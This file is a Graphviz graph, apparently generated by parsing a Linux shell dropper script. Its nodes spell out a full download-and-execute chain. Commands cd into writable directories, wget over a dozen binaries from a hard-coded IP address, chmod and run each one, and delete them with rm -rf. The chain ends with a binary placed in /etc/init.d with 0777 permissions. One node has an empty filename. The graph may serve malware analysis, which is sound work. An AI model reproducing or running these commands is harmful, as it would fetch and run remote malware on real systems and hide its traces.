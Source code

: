 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://194.67.209.171/lungka "];
10 -> 12 [label=";,"];
12 [label="chmod +x lungka "];
12 -> 14 [label=";,"];
14 [label="./lungka "];
14 -> 16 [label=";,"];
16 [label="rm -rf lungka "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://194.67.209.171/mango "];
28 -> 30 [label=";,"];
30 [label="chmod +x mango "];
30 -> 32 [label=";,"];
32 [label="./mango "];
32 -> 34 [label=";,"];
34 [label="rm -rf mango "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://194.67.209.171/openggl "];
46 -> 48 [label=";,"];
48 [label="chmod +x openggl "];
48 -> 50 [label=";,"];
50 [label="./openggl "];
50 -> 52 [label=";,"];
52 [label="rm -rf openggl "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://194.67.209.171/vast "];
64 -> 66 [label=";,"];
66 [label="chmod +x vast "];
66 -> 68 [label=";,"];
68 [label="./vast "];
68 -> 70 [label=";,"];
70 [label="rm -rf vast "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://194.67.209.171/greypss "];
82 -> 84 [label=";,"];
84 [label="chmod +x greypss "];
84 -> 86 [label=";,"];
86 [label="./greypss "];
86 -> 88 [label=";,"];
88 [label="rm -rf greypss "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://194.67.209.171/kuhamo "];
100 -> 102 [label=";,"];
102 [label="chmod +x kuhamo "];
102 -> 104 [label=";,"];
104 [label="./kuhamo "];
104 -> 106 [label=";,"];
106 [label="rm -rf kuhamo "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://194.67.209.171/marcos "];
118 -> 120 [label=";,"];
120 [label="chmod +x marcos "];
120 -> 122 [label=";,"];
122 [label="./marcos "];
122 -> 124 [label=";,"];
124 [label="rm -rf marcos "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://194.67.209.171/chikos "];
136 -> 138 [label=";,"];
138 [label="chmod +x chikos "];
138 -> 140 [label=";,"];
140 [label="./chikos "];
140 -> 142 [label=";,"];
142 [label="rm -rf chikos "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://194.67.209.171/pchikos "];
154 -> 156 [label=";,"];
156 [label="chmod +x pchikos "];
156 -> 158 [label=";,"];
158 [label="./pchikos "];
158 -> 160 [label=";,"];
160 [label="rm -rf pchikos "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://194.67.209.171/co "];
172 -> 174 [label=";,"];
174 [label="chmod +x co "];
174 -> 176 [label=";,"];
176 [label="./co "];
176 -> 178 [label=";,"];
178 [label="rm -rf co "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://194.67.209.171/  "];
190 -> 192 [label=";,"];
192 [label="chmod +x   "];
192 -> 194 [label=";,"];
194 [label="./  "];
194 -> 196 [label=";,"];
196 [label="rm -rf   "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://194.67.209.171/facebook2 "];
208 -> 210 [label=";,"];
210 [label="chmod +x facebook2 "];
210 -> 212 [label=";,"];
212 [label="./facebook2 "];
212 -> 214 [label=";,"];
214 [label="rm -rf facebook2 "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://194.67.209.171/netdeld "];
226 -> 228 [label=";,"];
228 [label="chmod +x netdeld "];
228 -> 230 [label=";,"];
230 [label="./netdeld "];
230 -> 232 [label=";,"];
232 [label="rm -rf netdeld "];
232 -> 234 [label=";,"];
234 [label="cd /etc/init.d "];
234 -> 234
236 [label="wget http://194.67.209.171/dakma "];
236 -> 238 [label=";,"];
238 [label="chmod 0777 dakma "];
238 -> 240 [label=";,"];
240 [label="./dakma "];
240 -> 241 [label=";,"];
}
